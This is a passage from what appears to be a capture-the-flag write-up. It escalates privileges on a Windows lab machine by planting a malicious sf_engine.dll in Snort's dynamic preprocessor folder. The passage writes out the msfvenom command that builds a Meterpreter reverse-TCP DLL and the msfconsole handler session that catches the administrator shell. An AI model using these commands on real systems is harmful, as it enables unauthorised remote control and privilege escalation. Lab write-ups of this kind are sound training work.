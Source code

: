  ![Untitled16](https://github.com/g1vi/AllTheWriteUps/assets/120142960/a0b98275-d007-4934-91be-bca2c8f39e5e)
 
In summary, it seems Snort load first dynamic DLL's located at the preprocessor path `c:\Snort\lib\snort_dynamicpreprocessor`<br>
<br>
Create an `msfvenom` payload for a malicious DLL called `sf_engine.dll` and copy to `c:\snort\lib\snort_dynamicpreprocessor`
```markdown
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.xxx.xxx lport=1919 -f dll -a x64 --platform windows -o sf_engine.dll
```
Now start a meterpreter handler and configure as needed.
```markdown
> msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.10.
msf6 exploit(multi/handler) > set lport 1919
lport => 1919
msf6 exploit(multi/handler) > exploit
```
Shortly after the DLL file is copied into the Snort pre-processor folder, a meterpreter session 1 is opened under the `analysis\administrateur` context.

![Untitled17](https://github.com/g1vi/AllTheWriteUps/assets/120142960/edfca617-38a4-4b93-80be-4622d2d0d7c8)

This shell allows to retrieve the system flag.
